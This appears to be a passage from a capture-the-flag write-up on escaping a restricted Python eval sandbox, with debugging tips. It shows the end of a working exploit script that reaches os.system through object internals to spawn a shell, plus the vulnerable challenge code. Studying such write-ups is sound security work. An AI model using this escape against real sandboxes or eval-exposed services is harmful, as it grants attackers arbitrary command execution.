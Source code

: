 ```python
        + "Printer:=_[[].__class__.__base__][P],"
        # locate Helper
        + "Helper:=_[[].__class__.__base__][H],"
        # read help_text
        + "S:=Helper.__doc__,"
        # _.__class_getitem__ becomes dict.values
        + "[None for _.__class_getitem__ in [dict.values]],"
        # values = dict.values(Printer.__init__.__globals)
        + "[values:=_[Printer.__init__.__globals__],None][True],"
        # _.__class_getitem__ becomes list
        + "[None for _.__class_getitem__ in [list]],"
        # values = list(values)
        + "[values:=_[values],None][True],"
        # sys = values[-4]
        + "[sys:=values[True-True-True-True-True-True],None][True],"
        # os = sys.modules["os"]
        + f"[os:=sys.modules[{synthesize("os")}],None][True],"
        # _.__class_getitem__ becomes os.system
        + "[None for _.__class_getitem__ in [os.system]],"
        + f"_[{synthesize("sh")}],"
        + "]"
    )
    .replace(" ", "\r")
    .encode()
)
p.interactive()
```

Some tips on debugging: To aid debugging, we change the script to print result and complain if validation fails:

```python
#!/usr/bin/env python3
import re

class something_to_do_huh:...
eval = eval
print = print
code = input('>>> ')

if not re.findall('[()\'"0123456789 ]', code):
    for k in (b:=__builtins__.__dict__).keys():
        b[k] = None
    
    print(eval(code, {'__builtins__': {}, '_': something_to_do_huh}))
else:
    print("fail")
```

However, `print`-ing some values may fail due to missing builtins. Therefore, we convert the non-printable values by converting:

```python
[
    A:=B,
]
```
